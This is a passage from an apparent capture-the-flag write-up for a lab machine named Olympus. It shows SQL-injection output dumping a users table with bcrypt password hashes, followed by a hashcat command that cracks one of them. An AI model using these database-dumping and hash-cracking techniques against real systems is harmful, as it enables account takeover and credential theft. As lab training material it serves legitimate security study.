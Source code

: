 And **root**:

```
[10:52:42] [INFO] retrieved: dgas
[10:53:07] [INFO] retrieved: root@chat.^X@seolympus.thm
[10:56:01] [INFO] retrieved: root
[10:56:36] [INFO] retrieved: 6                                                                         
[10:56:45] [INFO] retrieved: 
[10:56:46] [INFO] retrieved:
[10:56:46] [INFO] retrieved: root
[10:57:21] [INFO] retrieved: $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK
[11:05:25] [INFO] retrieved: Admin
```

And finally no olympus system is complete without **zeus**:

```
[11:05:57] [INFO] retrieved: dgas
[11:06:22] [INFO] retrieved: zeus@chat.olympus.thm
[11:09:11] [INFO] retrieved: zeus
[11:09:40] [INFO] retrieved: 7
[11:09:49] [INFO] retrieved: 
[11:09:49] [INFO] retrieved: 
[11:09:50] [INFO] retrieved: zeus
[11:10:19] [INFO] retrieved: $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC
[11:18:55] [INFO] retrieved: User
```

And the full results:

```
Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
```

I try and crack the hashes and only the one for **prometheus** cracks:

`hashcat-6.2.5>hashcat -m 3200 -w 3 -O -D 1,2 hash.txt rockyou.txt`

```
$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C:<REDACTED>
Recovered........: 1/3 (33.33%) Digests, 1/3 (33.33%) Salts
```
